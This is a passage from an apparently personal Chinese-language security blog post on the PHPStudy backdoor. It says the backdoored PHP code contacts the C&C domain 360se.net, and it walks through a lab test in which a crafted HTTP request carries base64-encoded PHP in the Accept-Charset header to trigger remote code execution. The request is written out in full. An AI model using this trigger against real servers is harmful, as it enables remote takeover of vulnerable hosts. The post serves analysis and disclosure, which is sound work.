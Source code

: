 ​	这段PHP代码中内置有域名表和端口表, 批量遍历后发送请求到C&C地址360se.net, 然后执行由C&C服务器返回的内容. 

### 远程命令执行后门测试

​	首先, 运行并启动存在问题的PHPStudy版本, 如下图所示:

<img src="{{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-09-30\10.PNG" alt="10" style="zoom:60%;" />

​	EXP如下图, 通过构造http请求实现远程代码执行. 其中, `printf(md5(333));`命令经base64编码后为`cHJpbnRmKG1kNSgzMzMpKTs=`, 用于回显验证. `Accept-Encoding`字段值设为`gzip,deflate`, 然后才会判断是否存在`Accept-Charset`字段并取得该字段的值. base64解码后执行, 即实现远程命令执行:

```http
GET /index.php HTTP/1.1
Host: 192.168.221.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding:gzip,deflate
Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
Content-Length: 0
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

​	在burpsuite中构造上述http请求, 并发送该请求给目标主机, 回显验证了该后门利用实现了.如下图所示:

![11]({{https://github.com/kumqu/kumqu.github.io/blob/master}}/assets/2019-09-30\11.PNG)

### 参考资料

[1]	PHPStudyGhost后门隐蔽触发功能详细分析

​		https://mp.weixin.qq.com/s/t-P-n98ZydP3aSCdC0C9hQ 

[2]	phpStudy后门简要分析

​		https://www.freebuf.com/articles/others-articles/215406.html

[3]	PHPStudy后门事件分析

​		https://bbs.pediy.com/thread-254702.htm												 

[4]	phpStudy遭黑客入侵植入后门事件披露

​		https://mp.weixin.qq.com/s?__biz=MzI5NjA0NjI5MQ==&mid=2650165920&idx=1&sn=ac45922b6cf1db0f3d3cf0a10872be06&chksm=f448a91cc33f200a32cdbd01535e227a4a81cd3ce843992e410d0e4d5b772914d1ac3d6324fe&mpshare=1&scene=1&srcid=&sharer_sharetime=1569082336079&sharer_shareid=050fef71c2c8c2cd7ebc8d5cccf6b556#rd								 					